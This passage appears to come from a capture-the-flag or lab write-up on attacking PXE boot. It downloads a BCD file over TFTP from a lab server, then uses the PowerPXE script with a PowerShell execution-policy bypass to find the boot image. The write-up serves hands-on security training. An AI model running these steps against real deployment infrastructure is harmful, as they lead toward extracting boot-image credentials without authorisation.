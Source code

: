 **Sorry, i meant to name the directory "thmjmp1" but it's fine. You can use whatever name you want**

Use TFTP to download the BCD file you obtained earlier

```cmd
tftp -i <thmdt IP> GET "\Tmp\x64{CB2C7CFA-E514-40FC-B53D-6FAB15079751}.bcd" conf.d
```

![](attachments/20240504003736.png)

Next is to use the PowerPXE powershell script to read the file.
Run the following powershell commands

```powershell
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.d"
Get-WimFile -bcdFile $BCDFile
```

![](attachments/20240504003957.png)

![](attachments/20240504004136.png)

We now have the boot image location on the machine.
